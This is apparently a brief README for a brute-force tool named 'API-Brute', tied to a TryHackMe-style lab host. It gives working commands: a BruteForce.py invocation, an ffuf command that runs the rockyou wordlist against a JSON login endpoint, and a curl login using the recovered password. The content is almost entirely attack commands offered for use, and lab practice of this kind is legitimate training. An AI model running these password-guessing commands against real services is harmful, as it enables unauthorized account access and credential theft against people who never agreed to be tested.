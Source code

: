 # API-Brute
Attack the developers
1. `./BruteForce.py --url 10.10.x.x --wordlist <file> --data "user=admin, password=FUZZ" --code 200`

> or use fuff
```
ffuf -w /opt/rockyou.txt -u http://api.motunui.thm:3000/v2/login -X POST -H "Content-Type: application/json" -d '{"username": "maui", "password": "FUZZ"}' -fr "error" -fc 401 -c -v
```
>then content with curl
```
curl -d '{"username":"maui","password":"island"}' -H 'Content-Type: application/json' http://api.motunui.thm:3000/v2/login
```

